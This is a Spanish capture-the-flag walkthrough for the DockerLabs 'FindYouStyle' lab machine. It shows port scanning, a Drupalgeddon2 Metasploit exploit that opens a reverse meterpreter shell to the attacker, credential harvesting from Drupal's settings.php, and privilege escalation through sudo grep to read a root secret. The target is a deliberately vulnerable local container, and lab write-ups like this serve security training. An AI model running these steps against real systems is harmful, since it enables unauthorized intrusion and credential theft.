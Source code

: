 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FindYouStyle DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip findyoustyle.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh findyoustyle.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 09:37 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Welcome to Find your own Style | Find your own Style
|_http-server-header: Apache/2.4.25 (Debian)
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.71 seconds
```

Si entramos en la pagina veremos que es un `Software` `Drupal` por lo que puede tener un `exploit` veremos a ver que version tiene.

```shell
whatweb http://<IP>/
```

Info:

```
http://172.17.0.2 [200 OK] Apache[2.4.25], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[172.17.0.2], MetaGenerator[Drupal 8 (https://www.drupal.org)], PHP[7.2.3], PoweredBy[-block], Script, Title[Welcome to Find your own Style | Find your own Style], UncommonHeaders[x-drupal-dynamic-cache,x-content-type-options,x-generator,x-drupal-cache], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.2.3], X-UA-Compatible[IE=edge]
```

## Escalate user www-data

No vemos una version en especifica, por lo que vamos a probar a utilizar `metasploit` para ver si algun `exploit` funciona:

```shell
msfconsole -q
```

Si buscamos un exploit para `drupal` veremos que este funciona:

```shell
use exploit/unix/webapp/drupal_drupalgeddon2
```

Lo configuramos:

```shell
set LHOST <IP_ATTACKER>
set LPORT <PORT>
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.120.128:7777 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.120.128:7777 -> 172.17.0.2:38468) at 2025-01-17 09:47:59 -0500

meterpreter > getuid
Server username: www-data
```

Vemos que obtendremos una shell como el usuario `www-data`.

## Escalate user ballenita

Si listamos los usuarios con una `bash` veremos los siguientes:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
ballenita:x:1000:1000:ballenita,,,:/home/ballenita:/bin/bash
```

Vemos el usuario `ballenita`, si nos vamos al siguiente directorio:

```shell
cd /var/www/html/sites/default
```

Vemos un archivo de configuracion tipico de `drupal` donde suele tener credeciales de la pagina:

```shell
cat settings.php
```

Info:

```
@code
 * $databases['default']['default'] = array (
 *   'database' => 'database_under_beta_testing', // Mensaje del sysadmin, no se usar sql y petó la base de datos jiji xd
 *   'username' => 'ballenita',
 *   'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
 *   'prefix' => '',
 *   'collation' => 'utf8mb4_general_ci',
 * );
 * @endcode
```

Vemos una parte interesante, por lo que vamos a probar la contraseña que pone como `ballenitafeliz` de la siguiente forma:

```shell
su ballenita
```

Metemos como contraseña `ballenitafeliz` y veremos que somo dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ballenita on 9421cefb0a55:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ballenita may run the following commands on 9421cefb0a55:
    (root) NOPASSWD: /bin/ls, /bin/grep
```

Vemos que podemos utilizar el binario `grep` y `ls`, como el usuario `root`, por lo que haremos lo siguiente:

Si listamos la carpeta de `root` veremos lo siguiente:

```shell
sudo ls /root
```

Info:

```
secretitomaximo.txt
```

Por lo que podremos leer el archivo con `grep` de la siguiente forma:

```shell
LFILE=/root/secretitomaximo.txt
sudo grep '' $LFILE
```

Info:

```
nobodycanfindthispasswordrootrocks
```

Puede ser que sea la contraseña de `root`.

```shell
su root
```

Metemos como contraseña `nobodycanfindthispasswordrootrocks` y veremos que ya seremos `root`, por lo que habremos terminado.
